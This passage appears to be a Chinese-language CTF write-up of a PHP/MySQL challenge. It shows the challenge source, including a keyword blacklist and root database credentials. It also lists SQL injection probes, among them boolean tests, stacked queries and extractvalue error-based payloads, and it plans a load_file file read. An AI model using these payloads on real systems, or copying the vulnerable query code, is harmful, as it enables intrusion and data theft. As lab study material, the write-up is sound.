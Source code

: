 ```php
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

`search`中存在一定的过滤, 但是因为禁用了`select`等关键词, 同时尝试使用`show,prepare`等进行堆叠注入也没有效果, 所以还需要去看看其他的源码

```
123'&&length(database())=4
123'&&1=1#  返回信息
123'&&1=2#  信息不全
123'&&(length(database())=8)# 返回信息
12';show databases;#
123'&&extractvalue(1,concat(0x7e,(database()),0x7e))#
12'||extractvalue(1,concat(0x7e,(database()),0x7e))#
```



`config.php`: 这里能够找到库名, 而且知道了是以`root`权限登录的

那么这里想到<span style='color:black;background:yellow;font-family:hei;font-weight:bold'>可以使用root的权限去执行load_file读取文件这样的功能</span>

```php
<?php

ini_set("open_basedir", getcwd() . ":/etc:/tmp");

$DATABASE = array(

    "host" => "127.0.0.1",
    "username" => "root",
    "password" => "root",
    "dbname" =>"ctfusers"
);
$db = new mysqli($DATABASE['host'],$DATABASE['username'],$DATABASE['password'],$DATABASE['dbname']);
```

`change.php`

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]); # 这里在单双引号等前面加了反斜杠
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
```
